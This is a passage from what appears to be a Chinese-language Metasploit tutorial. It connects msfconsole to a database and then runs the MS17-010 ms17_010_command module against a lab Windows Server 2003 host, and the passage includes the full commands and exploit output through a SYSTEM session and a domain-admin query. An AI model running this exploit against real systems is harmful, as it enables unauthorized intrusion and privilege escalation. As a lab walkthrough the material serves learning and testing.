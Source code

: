```
root@kali:~# msfconsole 
```

查看当前所连接的数据库:

```
msf > db_status 
[*] postgresql connected to msf
```

断开连接,连接我们刚刚创建的数据库,

断开数据库连接命令:db_disconnent

连接新的数据库:格式是db_connect 用户名:密码@127.0.0.1/数据库名

```
msf > db_disconnect 
msf > db_connect kkk:passwd@127.0.0.1/database1
```

#### 确认漏洞

这部分其实就是确认nmap扫描的结果是否准确,MSF提供专门扫描MS17-010的payload(载荷)我们可以在这里尝试一番,熟悉命令

```
msf > search ms17-010     //在漏洞库中搜索ms17-010的payload
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                      Disclosure Date  Rank     Description
   ----                                      ---------------  ----     -----------
   auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   auxiliary/scanner/smb/smb_ms17_010                         normal   MS17-010 SMB RCE Detection
   exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
```

我们使用auxiliary辅助模块中的ms17_010_command载荷去扫描确认目标系统是否真的有SMB服务的远程代码执行的漏洞

```
msf > use auxiliary/admin/smb/ms17_010_command    //使用该载荷
msf auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.135.136   //设置目标
rhosts => 192.168.135.136
msf auxiliary(admin/smb/ms17_010_command) > exploit  //进行攻击

[*] 192.168.135.136:445   - Target OS: Windows Server 2003 3790 Service Pack 2
[*] 192.168.135.136:445   - Filling barrel with fish... done
[*] 192.168.135.136:445   - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.135.136:445   - 	[*] Preparing dynamite...
[*] 192.168.135.136:445   - 		Trying stick 1 (x64)...Miss
[*] 192.168.135.136:445   - 		[*] Trying stick 2 (x86)...Boom!
[*] 192.168.135.136:445   - 	[+] Successfully Leaked Transaction!
[*] 192.168.135.136:445   - 	[+] Successfully caught Fish-in-a-barrel
[*] 192.168.135.136:445   - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.135.136:445   - Reading from CONNECTION struct at: 0x8fdf1cb0
[*] 192.168.135.136:445   - Built a write-what-where primitive...
[+] 192.168.135.136:445   - Overwrite complete... SYSTEM session obtained!
[+] 192.168.135.136:445   - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.135.136:445   - Output for "net group "Domain Admins" /domain":
ةĻ     Domain Admins
עˍ     ָ¶¨µœꝀ

```